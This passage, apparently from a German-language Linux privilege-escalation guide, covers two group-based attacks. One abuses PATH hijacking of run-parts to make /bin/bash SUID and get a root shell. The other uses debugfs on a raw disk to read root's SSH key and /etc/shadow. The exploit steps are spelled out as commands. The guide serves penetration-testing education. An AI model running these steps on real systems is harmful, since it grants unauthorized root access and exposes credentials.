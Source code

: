 ```bash
2024/02/01 22:02:14 CMD: UID=0     PID=17887  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
2024/02/01 22:02:14 CMD: UID=0     PID=17888  | run-parts --lsbsysinit /etc/update-motd.d
2024/02/01 22:02:14 CMD: UID=0     PID=17889  | uname -rnsom
2024/02/01 22:02:14 CMD: UID=0     PID=17890  | sshd: mane [priv]
2024/02/01 22:02:15 CMD: UID=0     PID=17891  | -bash
```
**Exploits**
```bash
# 0x1 Add a run-parts script in /usr/local/bin/
$ vi /usr/local/bin/run-parts
#! /bin/bash
chmod 4777 /bin/bash

# 0x2 Don't forget to add a execute permission
$ chmod +x /usr/local/bin/run-parts

# 0x3 start a new ssh sesstion to trigger the run-parts program

# 0x4 check premission for `u+s`
$ ls -la /bin/bash
-rwsrwxrwx 1 root root 1099016 May 15  2017 /bin/bash

# 0x5 root it
$ /bin/bash -p
```
## Disk Group

Dieses Privileg ist fast **äquivalent zu Root-Zugriff**, da Sie auf alle Daten innerhalb der Maschine zugreifen können.

Files:`/dev/sd[a-z][1-9]`
```bash
df -h #Find where "/" is mounted
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```
Beachten Sie, dass Sie mit debugfs auch **Dateien schreiben** können. Um beispielsweise `/tmp/asd1.txt` nach `/tmp/asd2.txt` zu kopieren, können Sie Folgendes tun:
```bash
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```
Wenn Sie jedoch versuchen, **Dateien, die dem Root-Benutzer gehören** (wie `/etc/shadow` oder `/etc/passwd`), zu **schreiben**, erhalten Sie einen "**Zugriff verweigert**"-Fehler.

## Video-Gruppe
